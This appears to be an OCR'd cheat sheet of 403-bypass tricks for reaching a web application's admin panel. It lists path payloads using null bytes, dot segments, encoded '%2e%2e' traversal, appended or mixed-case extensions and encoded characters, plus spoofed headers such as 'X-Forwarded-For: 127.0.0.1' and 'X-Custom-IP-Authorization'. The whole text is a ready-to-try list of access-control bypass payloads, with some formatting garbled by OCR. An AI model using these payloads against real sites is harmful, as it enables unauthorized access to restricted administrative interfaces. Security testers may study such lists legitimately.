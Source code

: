 `/AdminPanel%00Anotherpath``

`**`/v3/./AdminPanel/./`

`/v3//AdminPanel//`

`/v3/200-OK/%2e%2e/AdminPanel/200-OK/%2e%2e`

`/v3/%2e%2e/AdminPanel/%2e%2e`

### Extension Tricks

- **Add Extension**
    
    `/v3/AdminPanel.json 
    `/v3/AdminPanel.php`
    `/v3/AdminPanel.PHp`
    `/v3/AdminPanel.aspx` 
    `/v3/AdminPanel.AspX` 
    `/v3/AdminPanel.JSP` 
    `/v3/AdminPanel.jsp`
    
- Which Return 403 or not return 404 Try it
    
    `/v3/Admin%2e/.php%3b.jpg` `
    `/v3/Admin.php%3F.png` 
    `/v3/Admin.php%00.png`
    

### Name Tricks

- **Capitalization**
    
    `/v3/ADMINPANEL/`
    
- **Encode First Characte**
    
    **`/v3/%61dminPAnel`**
    

# Headers Manipulation

### Forwarder Headers Tricks

> X-Forwarded-For: 127.0.0.1

> X-Forwarded-For: 127.0.0.1\r

> X_Forwarded_For: 127.0.0.1

> X-Forwarded-For: 127.0.0.1\r

> Forwarded: for=127.0.0.1

> Forwarded: for=::1:80

> X-Custom-IP-Authorization: 127.0.0.1

> X-ProxyUser-Ip: 127.0.0.1
